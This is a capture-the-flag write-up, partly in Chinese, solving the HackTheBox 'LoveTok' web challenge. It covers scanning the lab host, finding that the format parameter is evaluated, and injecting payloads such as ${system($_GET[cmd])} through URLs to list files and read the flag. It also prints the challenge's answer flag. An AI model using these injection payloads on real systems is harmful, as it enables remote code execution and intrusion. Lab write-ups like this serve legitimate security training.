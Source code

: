 ```yaml
---
title: 'HackTheBox: LoveTok'
disqus: hackmd
---
```


HackTheBox: LoveTok
===


## Table of Contents

[TOC]

## Topic

### Lab
#### HackTheBox: 
https://app.hackthebox.com/challenges/198

### Initial Enumeration

●Start Machine: 
http://206.189.28.180:30492/
![](https://hackmd.io/_uploads/H17tqXtb6.png)

## Solution

### 1. Attempt

#### 1.1 nmap scan 
> nmap -sC -sV -T4 206.189.28.180

![](https://hackmd.io/_uploads/rkrNh7K-p.png)
> 這題非滲透，只開 port 30492

#### 1.2 dirsearch scan
> dirsearch -u http://206.189.28.180:30492/

![](https://hackmd.io/_uploads/ryFP6XKWT.png)
> /.DS_Store

●[.DS_Store用途](https://zh.wikipedia.org/zh-tw/.DS_Store)

#### 1.3 Browse
##### 1.3.1 Click on the button, url changes
![](https://hackmd.io/_uploads/S1glgNYW6.png)
> http://206.189.28.180:30492/?format=r
##### 1.3.2 Edit url
> http://206.189.28.180:30492/?format=chw

![](https://hackmd.io/_uploads/B1o8lNtZT.png)

**(Text Changed)**
> 2023-10-16T22:24:07+00:00101

### 2. Web shell
#### 2.1 system() function
●Web Shell: https://www.imperva.com/learn/application-security/web-shell/
●HackTricks: [PHP Code Execution ](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/php-tricks-esp/php-useful-functions-disable_functions-open_basedir-bypass#php-code-execution)

(restart machine, IP 有變更)
> http://142.93.32.153:30198/?format=${system($_GET[cmd])}&cmd=ls

![](https://hackmd.io/_uploads/Hy4H6Aoba.png)

#### 2.2 Check download file
##### 2.2.1 idex.php 位在LoveTok\web_lovetok\challenge
![](https://hackmd.io/_uploads/SyMKT0sZT.png)

##### 2.2.2 Find Flag location
\LoveTok\web_lovetok
![](https://hackmd.io/_uploads/rJHx0Co-p.png)

#### 2.3 Find Flag during Web shell
> TEST : http://142.93.32.153:30198/?format=${phpinfo()} 
> 
> http://142.93.32.153:30198/?format=${system($_GET[cmd])}&cmd=ls+../
(URL encode: 空白='+')

![](https://hackmd.io/_uploads/rJaR1y2ZT.png)

### 3. Find Flag 
> http://142.93.32.153:30198/?format=${system($_GET[cmd])}&cmd=cat+../flagNBD9R

![](https://hackmd.io/_uploads/Byy5xk2-a.png)
> **FLAG: HTB{wh3n_l0v3_g3ts_eval3d_sh3lls_st4rt_p0pp1ng}**


###### tags: `Web` `CTF` `Webshell` 
